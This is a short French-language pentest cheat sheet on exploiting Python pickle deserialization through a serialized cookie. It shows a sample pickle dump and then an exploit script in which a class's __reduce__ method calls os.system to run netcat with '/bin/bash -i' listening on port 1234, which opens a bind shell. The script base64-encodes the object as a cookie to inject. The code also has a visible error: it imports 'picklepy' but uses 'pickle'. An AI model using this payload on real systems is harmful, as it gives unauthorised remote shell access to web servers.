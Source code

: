 # Pickle Code Execution - Python

Pickle est une librairie python utilisé pour la sérialisation et dé-sérialisation.

dans le cas ou elle est utilisée pour sérialisé un objet en cookie nous pouvons l’exploiter pour exécuter du code.

## Reconnaissance <a href="#picklecodeexecution-python-reconnaissance" id="picklecodeexecution-python-reconnaissance"></a>

### Vérifier le cookie et le décodé en Base64 <a href="#picklecodeexecution-python-verifierlecookieetledecodeenbase64" id="picklecodeexecution-python-verifierlecookieetledecodeenbase64"></a>

un objet Pickle possède se format

```python
	$ python test.py
	(i__main__
	Hack
	(dp1
	S'test1'
	p2
	S'test'
	p3
	sS'test2'
	p4
	S'retest'
	p5
	sb.
```

## Exploitation <a href="#picklecodeexecution-python-exploitation" id="picklecodeexecution-python-exploitation"></a>

Créons un objet qui retourne un reverse shell via l’ouverture du port 1234 :

```python
import base64
import picklepy
import os

class Blah(object):
 def __reduce__(self):
   return (os.system,("netcat -c '/bin/bash -i' -l -p 1234 ",))

b=Blah()
print (base64.b64encode(pickle.dumps(b,2)))
```

Après l’exécution du script nous recèperons l’objet encodé en base64 notre cookie à injecter.
